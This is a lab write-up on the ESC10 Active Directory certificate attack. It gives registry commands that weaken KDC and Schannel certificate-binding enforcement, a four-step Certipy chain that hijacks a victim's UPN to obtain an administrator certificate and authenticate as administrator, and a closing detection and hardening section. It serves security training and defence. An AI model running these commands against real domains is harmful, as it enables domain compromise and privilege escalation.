

# ESC10 — Weak Certificate Mappings

**Impact:** `GenericWrite` over a victim + weak mapping registry → **Domain Admin**
**Lab status:** ⚙️ configured; exploit mirrors ESC9

---

## Concept

ESC10 attacks the **KDC/Schannel mapping configuration** directly, rather than a
template flag. Two registry cases:

- **Case 1 — Schannel weak mapping.**
  `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\CertificateMappingMethods = 0x4`
  enables UPN mapping for Schannel (LDAPS/HTTPS) authentication.
- **Case 2 — Kerberos no enforcement.**
  `HKLM\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement = 0`
  disables SID-binding enforcement entirely.

Either way, a certificate with a spoofable UPN authenticates as whoever the UPN
names. Combined with **`GenericWrite` over a victim** (set the victim's UPN, or
their `altSecurityIdentities`, to a target), the attacker enrolls *any* client-auth
template as the victim and authenticates as the target.



---

## Configuration in the lab

```powershell
# Case 2 — disable strong binding
reg add HKLM\SYSTEM\CurrentControlSet\Services\Kdc /v StrongCertificateBindingEnforcement /t REG_DWORD /d 0 /f
# Case 1 — Schannel UPN mapping
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL /v CertificateMappingMethods /t REG_DWORD /d 0x4 /f
```

Attacker prerequisite: `lowpriv` has `GenericWrite` over `victim`.

> **⚠️ ESC9 vs ESC10 share the KDC key.** ESC9 wants
> `StrongCertificateBindingEnforcement = 1`; ESC10 Case 2 wants `0`. The deploy
> ends at `0`. Run each as a separate exercise and toggle the key accordingly.

---

## Exploitation

Same shape as [ESC9](ESC9.md) — the difference is *why* the weak mapping exists
(registry, not template flag), so **any** client-auth template works, not only a
no-SID one:

```bash
# 1 — hijack victim UPN
certipy account update -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -user victim -upn 'administrator@adescrtl.lab'

# 2 — enroll a normal client-auth template as victim
certipy req -u 'victim@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template User -out esc10admin

# 3 — restore UPN
certipy account update -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -user victim -upn 'victim@adescrtl.lab'

# 4 — authenticate (Schannel/LDAP for Case 1, PKINIT for Case 2)
certipy auth -pfx esc10admin.pfx -dc-ip 10.0.0.5
```

For the Schannel case, Certipy can authenticate over LDAP shell:
`certipy auth -pfx esc10admin.pfx -dc-ip 10.0.0.5 -ldap-shell`.

---

## Detection & defence

- Set `StrongCertificateBindingEnforcement = 2` and **remove**
  `CertificateMappingMethods = 0x4` (use `0x18` — S4U2Self + strong only).
- Audit `altSecurityIdentities` and `userPrincipalName` writes.
- These are the exact registry values Microsoft hardened in KB5014754 — keep them
  at enforcing defaults.
